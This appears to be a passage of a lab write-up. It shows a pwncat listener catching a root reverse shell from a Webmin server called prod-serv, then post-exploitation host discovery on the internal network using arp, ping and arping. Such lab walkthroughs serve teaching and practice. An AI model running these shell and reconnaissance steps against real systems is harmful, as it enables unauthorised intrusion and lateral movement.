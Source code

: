 ![Screen Shot 2021-09-13 at 03.30.38.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/79A0360B-D7BB-44A9-B88F-94F3E41FAD60_2/Screen%20Shot%202021-09-13%20at%2003.30.38.png)

We go the code execution. Now we need to get a shell access. Setup a listener and pass the bash one-liner.

![Screen Shot 2021-09-13 at 03.34.39.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/25CDB154-241F-4582-A036-F8C47C8C8252_2/Screen%20Shot%202021-09-13%20at%2003.34.39.png)

```shell
⛩\> pwncat -lp 9001
[10:34:22] Welcome to pwncat 🐈!                                                                                                                __main__.py:143
[10:34:31] received connection from 10.200.188.200:59166                                                                                             bind.py:57
[10:34:33] 0.0.0.0:9001: normalizing shell path                                                                                                  manager.py:502
[10:34:34] 10.200.188.200:59166: registered new host w/ db                                                                                       manager.py:502
(local) pwncat$
(remote) root@prod-serv:/usr/libexec/webmin/# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

As we are already root, there’s no need to escalate privileges. However, we have to perform post-exploitation process to find  hosts in the same network. We can start by looking into ARP cache.

```
(remote) root@prod-serv:/root# arp -a

ip-10-200-188-1.eu-west-1.compute.internal (10.200.188.1) at 02:74:1d:9c:65:4f [ether] on eth0
ip-10-200-188-150.eu-west-1.compute.internal (10.200.188.150) at 02:48:97:0c:dd:d9 [ether] on eth0
ip-10-200-188-100.eu-west-1.compute.internal (10.200.188.100) at 02:e6:a9:4c:30:eb [ether] on eth0
```

As you can see the cache has two more IP address. Let’s try to ping them .

```
(remote) root@prod-serv:/root# ping 10.200.188.100 -c 2
PING 10.200.188.100 (10.200.188.100) 56(84) bytes of data.

--- 10.200.188.100 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 8ms

(remote) root@prod-serv:/root# ping 10.200.188.150 -c 2
PING 10.200.188.150 (10.200.188.150) 56(84) bytes of data.

--- 10.200.188.150 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 36ms
```

Both IP are not reachable via ping (ICMP). Perhaps ICMP is blocked on the both IP. Let’s try ARP Ping.

```
(remote) root@prod-serv:/root# arping -c 4 10.200.188.100
ARPING 10.200.188.100 from 10.200.188.200 eth0
Unicast reply from 10.200.188.100 [02:E6:A9:4C:30:EB]  0.647ms
Unicast reply from 10.200.188.100 [02:E6:A9:4C:30:EB]  0.678ms
Unicast reply from 10.200.188.100 [02:E6:A9:4C:30:EB]  0.662ms
Unicast reply from 10.200.188.100 [02:E6:A9:4C:30:EB]  0.677ms
Sent 4 probes (1 broadcast(s))
Received 4 response(s)

(remote) root@prod-serv:/root# arping -c 4 10.200.188.150
ARPING 10.200.188.150 from 10.200.188.200 eth0
Unicast reply from 10.200.188.150 [02:48:97:0C:DD:D9]  0.639ms
Unicast reply from 10.200.188.150 [02:48:97:0C:DD:D9]  0.663ms
Unicast reply from 10.200.188.150 [02:48:97:0C:DD:D9]  0.636ms
Unicast reply from 10.200.188.150 [02:48:97:0C:DD:D9]  0.647ms
```